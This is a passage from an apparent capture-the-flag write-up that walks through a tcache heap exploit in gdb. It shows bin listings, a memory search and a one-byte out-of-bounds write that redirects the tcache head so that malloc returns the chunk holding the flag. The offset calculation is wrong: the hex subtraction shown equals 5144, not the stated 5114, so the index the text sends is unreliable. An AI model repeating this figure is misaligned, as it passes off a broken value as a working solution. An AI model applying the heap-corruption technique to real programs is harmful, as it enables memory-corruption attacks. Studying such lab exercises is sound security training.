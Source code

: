 From here we continue on to set a breakpoint at the next `free` and continue:
```
(gdb) b *0x4009b4
Breakpoint 2 at 0x4009b4
(gdb) c
(gdb) heap bins tcache
────────────────────────────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────────────
Tcachebins[idx=7, size=0x90, count=2] ←  Chunk(addr=0x603890, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x603800, size=0x90, flags=PREV_INUSE)
(gdb) x/s 0x603890 + 0x10
0x603900:     "t help you: this is a random string."
```
Now, at this point we're at the breakpoint right after the second `free`, and examining the tcache, there are now 2 chunks with the recently freed chunk at the head of the tcache bin. Examining the contents of the chunk, we can see that this recently freed chunk at the head of the list is what gets printed out at the end of the program. This means that in order for the program to instead print out the string containing the flag (which is the first freed chunk), we need the first freed chunk to end up at the head of the tcache bin. 

Currently, the tcache bin the chunks that fall into this range looks like this:
```
[tcache bin head] --> [chunk @ 0x603890] --> [chunk @ 0x603800]
```
With only one single byte that we can modify, we want the tcache bin to look like this:
```
[tcache bin head] --> [chunk @ 0x603800] 
```
Because a call to `malloc` with a size that fits the chunks in the tcache bin will return the first chunk at the head of the list, if we can get the tcache bin head to reference the chunk at address 0x603800, then this chunk will be returned. The key lines in `main` are here:
```
local_a0[local_a8] = local_a9;
local_80 = malloc(0x80);
```
where the first line will allow us to modify one byte, which is where we modify the tcache bin head and the second line is when the chunk containing the flag gets returned by `malloc` after we nodify the head. In order for this to happen we need to find where the tcache bin head is. We can do this using `search-pattern`:

```
(gdb) search-pattern 0x603890
<snip>
[+] Searching '\x90\x38\x60' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x602088 - 0x602094  →   "\x90\x38\x60[...]"
<snip>
```
From the output, we can see that `0x602088` is the address that is holding first chunk of the list. We now need it to hold the memory address `0x603800`instead of `0x603890`. In order to do this we need to calculate the offset of `local_a0` to `0x602088`. By examining register contents using `gdb`, we find that `local_a0 = 0x6034a0`. Then, `0x6034a0 - 0x602088 = 5114`. This means that from `local_a0`, we need to subtract 5114, and at this address, we need to change the byte `0x90` to `0x00`. Thus, the address we send is `-5114` and the value we send is `\x00` so that `0x602088` goes from `\x90\x38\x60` to `\x00\x38\x60`.
